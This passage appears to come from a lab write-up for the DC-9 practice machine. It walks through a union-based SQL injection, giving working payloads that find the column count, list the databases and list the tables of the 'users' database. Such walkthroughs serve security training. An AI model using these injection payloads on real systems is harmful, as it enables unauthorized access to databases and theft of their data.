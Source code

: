 First I get the number of columns by adding the null value for each column until I get a response with the following query:

```sql
Mary' union select null,null,null,null,null,null-- -
```

Then I go on to list the databases that exist, with the following query:

```sql
Mary' union select null,schema_name,null,null,null,null from information_schema.schemata-- -
```

![Untitled](DC-9%205a1a383f004f41a7b065312771f311ab/Untitled%202.png)

We see that the Staff and users databases exist.

The next step I take is to list the tables contained in the users database

```sql
Mary' union select null,table_name,null,null,null,null from information_schema.tables where table_schema='users'-- -

```

![Untitled](DC-9%205a1a383f004f41a7b065312771f311ab/Untitled%203.png)
